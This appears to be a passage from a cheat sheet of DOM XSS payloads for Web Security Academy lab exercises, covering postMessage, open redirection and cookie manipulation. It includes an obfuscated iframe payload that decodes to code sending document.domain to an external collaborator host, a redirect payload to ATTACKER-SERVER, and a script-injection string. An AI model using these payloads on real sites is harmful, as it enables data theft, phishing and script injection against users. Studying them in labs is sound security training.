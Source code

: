 <br>

Exploitation Payload:  (Similar as the above payloads for Web Messages.)  Check out the XSS folder of the cheatsheet for more payloads.

```javascript
<iframe src=https://0ab400b604252be5803512fc002b00ad.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,112,99,53,100,118,116,109,104,100,97,49,122,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))\"}","*")'>
```

<br></br><br>

### DOM XSS - Open Redirection

* There was a client-side script on the application that is taking in a query parameter called “url” and using the value in a location.href sink.  The URL needs to begin with “https://”.  

* The JavaScript Pseudo-protocol will not work here in this case, because we don't control the beginning of the href value.  This will simply redirect a user to a different website, can be used for phishing.

   * Example:  httpss://VULNERABLE-APPLICATION.net/post?postId=4&url=httpss://*user-input*

   * Payload:
   
```
https://VULNERABLE-APPLICATION.net/post?postId=4&url=https://ATTACKER-SERVER
```

<br>

* **Vulnerable Code:**

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
```

<br></br><br>

### DOM XSS - Cookie Manipulation

* The “window.location” source is being appended to a Cookie using the “document.cookie”.  This Cookie value is reflected back in the application's response within an HTML attribute.  Submit a crafted URL that will break out of the HTML context and execute JavaScript code.

    * Example (Context):  \<a href='httpss://VULNERABLE-APP.net/product?productId=*user-input*'\>

    * Payload:  &'\>\<script\>print()\</script\>


   **Note:  Need to use the & in the URL symbol to inject valid payload, since the application will throw an error if the "productId" is not valid.**
  
* The iframe will first load the vulnerable URL, which  will store it in "window.location" source.  Then the onload event will redirect to another page on the application, which will trigger the javascript, as the URL is reflected in the response.
